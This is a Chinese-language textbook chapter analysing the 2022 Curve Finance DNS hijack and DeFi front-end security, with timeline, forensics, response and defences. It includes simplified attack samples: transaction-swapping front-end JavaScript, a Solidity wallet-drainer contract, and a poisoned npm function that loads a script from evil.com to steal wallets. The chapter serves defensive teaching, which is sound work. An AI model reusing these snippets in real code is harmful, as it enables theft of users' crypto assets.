


## 23.6 Curve Finance前端攻击（2022年）

### 23.6.1 背景：Curve Finance与DeFi前端安全

#### 23.6.1.1 Curve Finance简介

Curve Finance是以太坊上最大的去中心化交易所（DEX）之一，专注于稳定币和锚定资产的低滑点兑换。截至2022年8月，Curve的总锁仓量（TVL）超过60亿美元，是以太坊DeFi生态的核心基础设施之一。

Curve的核心特点包括：

| 特性 | 说明 |
|------|------|
| 专注稳定资产 | USDC/USDT/DAI等稳定币之间的低滑点兑换 |
| StableSwap算法 | 专为锚定资产设计的AMM曲线，滑点远低于Uniswap |
| CRV代币治理 | 通过veCRV（投票托管CRV）实现治理投票和收益提升 |
| 多池架构 | 支持多种资产组合的流动性池 |
| TVL排名 | 2022年长期位居DeFi协议TVL前五 |

#### 23.6.1.2 为什么前端安全至关重要

DeFi协议的安全讨论通常聚焦于智能合约审计，但用户与协议交互的实际路径远不止链上合约。典型的DeFi交互链路如下：


上图中，红色标注的环节（DNS、CDN、前端）都是智能合约审计无法覆盖的攻击面。Curve Finance的这次事件恰恰发生在红色区域——攻击者劫持了DNS和前端，而链上合约本身完好无损。

这是一个极为重要的认知：**即使智能合约代码完美无缺，用户仍然可能因为前端被篡改而损失全部资金。** DeFi安全是一个端到端的问题，不能只审计链上部分。

### 23.6.2 攻击时间线

2022年8月9日的攻击可以分为以下关键阶段：

| 时间（UTC） | 事件 |
|-------------|------|
| 约16:00 | 攻击者修改curve.fi的DNS记录，指向恶意服务器 |
| 16:00-17:00 | 部分用户访问curve.fi时被重定向到恶意前端 |
| 约17:30 | Curve Finance官方Twitter发出警告，提醒用户不要签署任何交易 |
| 18:00左右 | DNS记录被恢复为正确指向 |
| 后续数天 | 链上追踪被盗资金流向 |
| 最终统计 | 总损失约57.5万美元 |

从DNS被劫持到官方发出警告，窗口期约1.5小时。在这段时间内，只要用户访问了curve.fi并签署了恶意交易，资产就会被盗。

### 23.6.3 攻击技术深度分析

#### 23.6.3.1 DNS劫持机制

DNS（Domain Name System）是将域名映射到IP地址的系统。攻击者通过以下路径实现了DNS劫持：

**攻击路径：**

1. **获取域名管理权限**：攻击者入侵了curve.fi域名的DNS注册商账户（后续调查显示可能是通过社会工程学或凭据泄露）
2. **修改DNS记录**：将curve.fi的A记录（或CNAME记录）从Curve正常服务器的IP地址改为攻击者控制的服务器
3. **部署恶意前端**：在攻击者服务器上部署一个外观与Curve Finance完全相同的网站
4. **等待用户上钩**：正常访问curve.fi的用户不知不觉被引导到恶意网站



这里有一个关键细节：DNS劫持不会改变HTTPS证书的行为。但由于用户在浏览器地址栏看到的仍然是`curve.fi`，且多数用户不会手动检查SSL证书的颁发机构是否发生变化，因此很难察觉异常。

#### 23.6.3.2 恶意前端的工作原理

攻击者部署的恶意前端与真正的Curve前端在外观上几乎完全一致，用户肉眼无法区分。但其内部逻辑存在关键篡改：

**合法前端的行为：**
```javascript
// 合法的 Curve 前端构造交易
const swapTx = {
    to: CURVE_POOL_CONTRACT,  // 发送到正确的 Curve 池合约
    data: encodeSwap(params),  // 编码兑换参数
    value: amount
};
// 用户的钱包弹出签名确认
await signer.sendTransaction(swapTx);
```

**恶意前端的篡改逻辑：**
```javascript
// 恶意前端在用户不知情的情况下修改交易目标
const maliciousTx = {
    to: ATTACKER_CONTRACT,  // 替换为攻击者合约地址
    data: encodeTransferFrom(userAddress, attackerAddress, maxUint256),
    // 构造一个 approve(max) 或 transferFrom 调用
    value: 0
};
// 用户以为在正常兑换，实际签署的是授权/转账交易
await signer.sendTransaction(maliciousTx);
```

恶意前端的核心策略有两种：

**策略一：诱导签署 ERC-20 approve 交易**

恶意前端会在用户执行"兑换"操作时，悄悄将交易替换为ERC-20代币的`approve`调用，授权攻击者的合约可以无限量转走用户的代币。用户在钱包中看到的是一个交易请求，但很难从ABI编码后的`data`字段判断出这是`approve`而非`swap`。

**策略二：直接构造 transferFrom**

在获取用户的`approve`授权后，恶意合约调用`transferFrom`将用户钱包中的代币全部转走。

```solidity
// 攻击者合约（简化示意）
contract Drainer {
    // 用户在不知情的情况下调用了这个函数
    function drain(address token, uint256 amount) external {
        IERC20(token).transferFrom(msg.sender, attacker, amount);
    }
    
    // 或者通过批量授权一次性转移多种代币
    function drainMultiple(address[] calldata tokens) external {
        for (uint i = 0; i < tokens.length; i++) {
            uint256 balance = IERC20(tokens[i]).balanceOf(msg.sender);
            IERC20(tokens[i]).transferFrom(msg.sender, attacker, balance);
        }
    }
}
```

#### 23.6.3.3 受害者画像

此次攻击中受损的用户具有以下共同特征：

- 直接通过浏览器访问curve.fi（而非书签或直接输入合约地址）
- 在攻击窗口期内访问了网站并签署了交易
- 使用浏览器钱包（如MetaMask）进行交互
- 未仔细核对钱包弹出的交易详情（目标地址、调用函数）

值得注意的是，使用硬件钱包的用户同样可能受影响——硬件钱包虽然提供了额外的确认步骤，但多数用户在Ledger/Trezor设备上看到的交易信息同样难以直接判断是否为恶意交易。

### 23.6.4 链上取证与资金追踪

#### 23.6.4.1 攻击者地址分析

攻击发生后，安全研究人员和链上分析师迅速追踪了攻击者的资金流向：

| 阶段 | 操作 | 说明 |
|------|------|------|
| 收集阶段 | 多个受害者地址 -> 攻击者合约 | 通过恶意交易收集被盗代币 |
| 归集阶段 | 攻击者合约 -> 主地址 | 将分散的资金归集到主地址 |
| 转移阶段 | 主地址 -> Tornado Cash | 通过混币器切断资金链路 |
| 套现阶段 | Tornado Cash -> 交易所 | 最终兑换为法币或跨链转移 |

攻击者使用Tornado Cash进行资金清洗是这一时期的常见模式。Tornado Cash通过零知识证明技术打破发送方和接收方之间的链上关联，使追踪变得极其困难。（注：Tornado Cash于2022年8月被美国OFAC制裁，恰在此事件前后。）

#### 23.6.4.2 资金损失明细

此次攻击的约57.5万美元损失主要由以下代币构成：

- ETH（以太坊原生代币）
- USDC、USDT、DAI（稳定币）
- CRV（Curve治理代币）
- 其他ERC-20代币

单笔损失金额从几百美元到数万美元不等，取决于受害者钱包中的资产余额。

### 23.6.5 应急响应与事件处置

#### 23.6.5.1 Curve Finance的响应

Curve团队在发现攻击后的响应流程如下：

1. **Twitter告警**：通过官方Twitter账号（@CurveFinance）发布紧急警告，要求用户立即停止访问curve.fi
2. **DNS恢复**：联系域名注册商，将DNS记录恢复为正确的IP地址
3. **社区通报**：在Discord和Telegram社群中同步事件进展
4. **事后分析**：发布攻击分析报告，说明攻击路径和用户应采取的防护措施

#### 23.6.5.2 用户端紧急措施

对于在攻击窗口期内访问过curve.fi的用户，应立即采取以下措施：

```text
紧急检查清单：

1. 检查钱包交易历史
   - 在 Etherscan 上查看是否有未知的 approve 交易
   - 特别关注 approve(attacker_address, max_uint256) 类型的交易

2. 撤销可疑授权
   - 使用 Revoke.cash (https://revoke.cash) 检查并撤销所有可疑授权
   - 使用 Etherscan Token Approvals 工具检查代币授权状态

3. 如果已经被盗
   - 立即将剩余资产转移到新钱包
   - 不要再使用可能已被泄露的私钥或地址

4. 报告与追踪
   - 向 Curve Finance 官方报告损失
   - 在社区中共享攻击者地址以帮助他人
```

### 23.6.6 前端攻击的攻防知识体系

Curve Finance事件只是DeFi前端攻击的一个典型案例。要全面理解这一攻击面，需要建立完整的知识体系。

#### 23.6.6.1 前端攻击分类

DeFi前端攻击不限于DNS劫持，还包括以下类型：

| 攻击类型 | 机制 | 难度 | 危害 |
|----------|------|------|------|
| DNS劫持 | 修改域名解析记录 | 中等 | 全部访问者受影响 |
| 供应链攻击 | 污染前端依赖包（npm等） | 中高 | 通过CI/CD部署传播 |
| CDN劫持 | 入侵CDN提供商修改内容 | 高 | 全部CDN节点受影响 |
| BGP劫持 | 伪造路由将流量导到恶意服务器 | 极高 | 区域级甚至全球级影响 |
| 浏览器扩展注入 | 通过恶意浏览器扩展修改页面 | 低 | 仅安装了恶意扩展的用户 |
| 恶意RPC节点 | 替换或篡改RPC响应 | 中等 | 使用特定RPC的用户 |
| 钓鱼链接 | 伪造域名（curve.fi vs curve.fi） | 低 | 点击了钓鱼链接的用户 |
| 恶意广告注入 | 通过广告网络在页面注入恶意脚本 | 中等 | 看到恶意广告的用户 |

#### 23.6.6.2 DNS劫持的详细技术原理

DNS系统本身缺乏内置的安全验证机制，这使得它长期成为攻击者的目标。DNS解析的完整流程如下：

```text
用户输入 curve.fi
    |
    v
浏览器缓存 -> 是否有缓存记录？-> 有：返回缓存IP
    |                           （可能已被篡改）
    v 无缓存
操作系统缓存 -> 是否有记录？-> 有：返回OS缓存
    |
    v 无
本地DNS服务器（ISP/企业）-> 递归查询
    |
    v
根域名服务器 -> .fi 顶级域名服务器 -> curve.fi 权威DNS服务器
    |
    v
返回 IP 地址 -> 缓存并返回给浏览器
```

在上述任何一个环节，如果攻击者能够：
- 入侵域名注册商账户，修改权威DNS记录
- 入侵本地DNS服务器，注入虚假记录
- 中间人攻击篡改DNS响应

就能将用户引导到恶意服务器。DNSSEC（DNS安全扩展）可以通过数字签名验证DNS响应的真实性，但截至2022年，大多数DeFi前端网站并未部署DNSSEC。

#### 23.6.6.3 供应链攻击：另一种前端威胁

DNS劫持之外，供应链攻击是另一种日益严重的前端威胁。2022年以来，多个DeFi项目因npm依赖包被污染而受到影响：

**攻击流程：**

1. 攻击者入侵一个被DeFi前端依赖的npm包（可能是直接依赖或传递依赖）
2. 在包的新版本中注入恶意代码
3. DeFi项目在下次`npm install`或CI/CD构建时自动拉取被污染的版本
4. 恶意代码随前端部署上线
5. 用户在不知情的情况下与恶意前端交互

```javascript
// 被污染的npm包示例（某日期处理库被入侵后）
// package.json: "date-utils": "2.8.2"（被污染版本）

// 恶意代码隐藏在库的某个正常函数中
export function formatDate(date) {
    // 正常功能...
    const formatted = date.toISOString().split('T')[0];
    
    // 恶意注入：在DeFi前端页面中注入钱包窃取逻辑
    if (window.ethereum) {
        const script = document.createElement('script');
        script.src = 'https://evil.com/steal.js';
        document.head.appendChild(script);
    }
    
    return formatted;
}
```

#### 23.6.6.4 BGP劫持：网络层的威胁

BGP（Border Gateway Protocol）劫持是一种更底层的攻击方式。2022年9月，攻击者通过BGP劫持成功攻击了多个DeFi协议的前端流量。BGP劫持的原理是：

互联网由多个自治系统（AS）组成，BGP协议负责在这些系统之间交换路由信息。如果攻击者控制了一个AS并广播了伪造的路由宣告，声称自己拥有某个IP地址块的最优路径，其他AS就会将流量路由到攻击者。

BGP劫持极难防御，因为它发生在互联网基础设施层面，普通网站运营者几乎无法直接防护。Cloudflare、AWS Shield等服务提供了一定程度的BGP安全保护，但不是万能的。

### 23.6.7 防御策略与最佳实践

#### 23.6.7.1 项目方防御措施

**DNS与域名安全：**

```text
DNS安全加固清单：

1. 启用 DNSSEC
   - 在域名注册商处启用 DNSSEC 签名
   - 配置 DS 记录到父域
   - 验证 DNSSEC 链完整性

2. 域名注册商安全
   - 启用双因素认证（2FA）
   - 使用独立的、高强度的管理员密码
   - 启用域名锁定（Registrar Lock / clientTransferProhibited）
   - 定期审计域名管理账户的登录记录

3. DNS 记录监控
   - 部署 DNS 记录变更监控（如 DNSChecker、Detectify）
   - 设置 DNS 记录变更的即时告警
   - 定期对比 DNS 记录快照

4. CDN 与托管安全
   - 使用支持 Origin Pull 的 CDN（避免 Push 模式的内容篡改风险）
   - 启用 CDN 层面的 WAF 和 DDoS 防护
   - 配置 SRI（Subresource Integrity）验证静态资源完整性
```

**前端代码完整性：**

```html
<!-- 使用 SRI（Subresource Integrity）确保外部脚本未被篡改 -->
<script 
    src="https://cdn.example.com/lib.js" 
    integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC"
    crossorigin="anonymous">
</script>

<!-- CSP（Content Security Policy）限制脚本来源 -->
<meta http-equiv="Content-Security-Policy" 
      content="script-src 'self' https://cdn.curve.fi https://cdnjs.cloudflare.com;">
```

**去中心化前端方案：**

为消除对中心化服务器的依赖，DeFi项目可以采用去中心化前端托管：

| 方案 | 原理 | 优点 | 缺点 |
|------|------|------|------|
| IPFS + ENS | 将前端部署到IPFS，通过ENS域名访问 | 抗审查、抗DNS劫持 | 更新延迟、用户体验差 |
| Arweave | 永久存储前端文件 | 永久可用、不可篡改 | 存储成本、更新复杂 |
| Fleek/Pinata | IPFS托管服务 | 简化IPFS部署 | 引入新的中心化依赖 |
| 多源部署 | 同时部署在IPFS、传统CDN、GitHub Pages | 冗余备份 | 维护成本增加 |

```javascript
// ENS + IPFS 前端访问示例
// 用户通过 ENS 域名 curve.eth 访问
// ENS 记录指向 IPFS CID
// 浏览器（如 Brave）或 IPFS 网关解析 CID 获取前端

// ENS Content Hash 设置
// curve.eth -> ipfs://QmXoypizjW3WknFiJnKLwHCnL72vedxjQkDDP1mXWo6uco

// 任何节点都可以 pin 这个 CID，即使原始服务器下线
// 前端文件的哈希值写在链上，无法被篡改
```

#### 23.6.7.2 用户端防御措施

**交易签名验证：**

用户在签署任何交易之前，应养成以下习惯：

```text
交易签名前检查清单：

1. 验证网站真实性
   - 检查浏览器地址栏是否显示正确的域名
   - 确认 HTTPS 证书有效（点击锁形图标查看）
   - 使用书签访问常用 DeFi 网站，而非点击链接

2. 审查交易详情
   - 检查"Interacting with"字段是否为目标合约地址
   - 确认函数调用名称是否合理（approve? swap? transfer?）
   - 对于 approve 操作，检查授权额度是否合理
   - 如果钱包只显示十六进制数据，使用区块浏览器解码

3. 使用安全工具
   - 安装 Pocket Universe 或 Fire 等交易模拟扩展
   - 使用 WalletGuard 检测已知恶意网站
   - 启用 MetaMask 的 Blockaid 安全警报功能
```

**使用硬件钱包的正确姿势：**

```text
硬件钱包最佳实践：

1. 在硬件设备屏幕上仔细确认：
   - 目标地址是否正确
   - 金额是否正确
   - 函数选择器（前4字节）是否匹配预期操作

2. 使用 WalletConnect 而非浏览器扩展
   - WalletConnect 通过二维码连接，减少浏览器层面的攻击面

3. 分散资产
   - 不要在一个地址中存放全部资产
   - 使用"热钱包+冷钱包"策略
   - 热钱包只存放日常交互需要的少量资金

4. 定期检查授权
   - 使用 https://revoke.cash 检查所有已授权的合约
   - 及时撤销不再使用的授权
   - 避免使用无限授权（approve max）
```

#### 23.6.7.3 交易模拟与安全检测工具

现代Web3安全工具链已经发展出多种前端防护方案：

| 工具 | 类型 | 功能 | 安装方式 |
|------|------|------|----------|
| Pocket Universe | 浏览器扩展 | 交易模拟、钓鱼检测 | Chrome/Firefox商店 |
| Fire | 浏览器扩展 | 交易风险评估 | Chrome商店 |
| WalletGuard | 浏览器扩展 | 恶意网站检测 | Chrome商店 |
| MetaMask Snaps | 内置安全模块 | Blockaid交易安全检测 | MetaMask内置 |
| Rabby Wallet | 独立钱包 | 内置交易模拟和风险提示 | 独立钱包应用 |
| Blowfish | API服务 | 交易模拟和恶意检测 | 开发者API |

以Pocket Universe为例，当用户在恶意前端上签署交易时，扩展会自动模拟交易执行并弹出警告：

```text
╔══════════════════════════════════════════════╗
║  ⚠️ Pocket Universe 安全警告                  ║
║                                              ║
║  检测到高风险交易：                            ║
║                                              ║
║  操作：approve (无限授权)                     ║
║  授权对象：0x1234...5678 (未知合约)           ║
║  授权代币：USDC                              ║
║  授权数量：unlimited                          ║
║                                              ║
║  风险评估：🔴 极高风险                        ║
║                                              ║
║  此交易将授权一个未知合约无限量转走您的USDC。 ║
║  如果您不认识此合约，强烈建议拒绝此交易。     ║
║                                              ║
║  [ 拒绝 ]           [ 查看详情 ]              ║
╚══════════════════════════════════════════════╝
```

### 23.6.8 同类事件对比分析

Curve Finance的前端攻击并非孤立事件。2022年前后，多个DeFi项目遭受了类似的前端攻击：

| 事件 | 时间 | 攻击方式 | 损失 | 特点 |
|------|------|----------|------|------|
| Curve Finance | 2022年8月 | DNS劫持 | ~57.5万美元 | 影响范围广，响应较快 |
| PancakeSwap | 2021年3月 | DNS劫持 | 未公开 | 域名注册商被入侵 |
| Cream Finance | 2021年9月 | DNS劫持 | 未公开 | 多次遭受不同类型的攻击 |
| Badger DAO | 2021年12月 | 恶意注入 | ~1.2亿美元 | 通过浏览器扩展注入恶意代码 |
| DeFi Llama | 2023年3月 | DNS劫持 | ~未造成损失 | 安全团队快速响应阻止了攻击 |
| Galxe | 2023年10月 | DNS劫持 | ~2900万美元 | 域名账户被盗，损失惨重 |

从这些案例中可以提取出以下共同模式：

1. **攻击窗口期决定损失大小**：从DNS被劫持到用户收到警告的时间越长，损失越大
2. **社会工程学是常见切入点**：多数DNS劫持通过入侵域名管理账户实现
3. **反应速度是关键**：团队的监控和响应能力直接影响事件严重程度
4. **用户安全意识参差不齐**：即使有警告，仍有用户在不知情的情况下签署交易

### 23.6.9 深度思考：前端安全的系统性挑战

#### 23.6.9.1 去中心化协议的中心化悖论

Curve Finance事件揭示了DeFi领域一个根本性的矛盾：**去中心化协议依赖中心化的前端基础设施。**

用户与DeFi协议交互的标准路径中，DNS、CDN、Web服务器、RPC节点——这些全都是中心化的。这意味着即使智能合约部署在以太坊上且完全去中心化，用户的入口仍然是一组中心化的基础设施。



#### 23.6.9.2 安全审计的边界问题

传统区块链安全审计的范围通常仅覆盖：

- 智能合约代码
- 合约间的交互逻辑
- 经济模型和激励机制
- 链上治理机制

但不覆盖：

- 前端代码和部署流程
- DNS和网络基础设施
- 密钥管理和运营安全
- 社会工程学攻击面
- 供应链安全

这意味着一个通过了顶级安全公司审计的DeFi协议，仍然可能因为前端被入侵而损失用户资金。安全审计的边界需要扩展到涵盖整个技术栈。

#### 23.6.9.3 从"信任代码"到"信任链路"

Curve Finance事件的最深层教训是：在Web3世界中，安全不是一个点的问题，而是一条链的问题。

```text
信任链路的每一个环节：

用户眼睛 -> 浏览器 -> DNS -> 网络 -> 前端代码 -> 钱包 -> RPC -> 合约

任何一个环节被攻破，整条链路的安全性就归零。
```

这要求安全思维从"审计合约"扩展为"审计整个信任链路"。具体而言：

1. **合约层面**：智能合约审计、形式化验证、bug bounty
2. **前端层面**：代码审计、供应链安全、部署流水线安全
3. **基础设施层面**：DNS安全、CDN安全、RPC节点安全
4. **运营层面**：密钥管理、访问控制、监控告警
5. **用户层面**：安全教育、交易模拟、风险提示

### 23.6.10 本节小结

Curve Finance前端攻击（2022年）是DeFi安全领域的一个标志性事件。虽然损失金额（57.5万美元）在动辄上亿美元的DeFi攻击中并不算最严重，但它揭示了一个被长期忽视的攻击面——前端安全。

**核心要点回顾：**

| 维度 | 关键教训 |
|------|----------|
| 攻击本质 | DNS劫持导致用户被引导到恶意前端 |
| 技术原理 | 恶意前端替换交易数据，诱导用户签署恶意授权 |
| 防御层次 | 需要DNS安全、前端完整性、交易模拟、用户教育多层防护 |
| 行业启示 | 去中心化协议的前端基础设施仍是中心化的，这是系统性风险 |
| 审计边界 | 安全审计应从合约扩展到整个技术栈和信任链路 |
| 用户教育 | 交易签名前必须审查目标地址和函数调用，不能盲目信任前端显示 |

对于区块链安全从业者而言，这个案例提醒我们：**不要只低头看合约代码，也要抬头看用户到合约之间的整条路。** 攻击者总是选择最薄弱的环节，而前端往往是整个DeFi栈中最容易被忽视、也最容易被突破的环节。
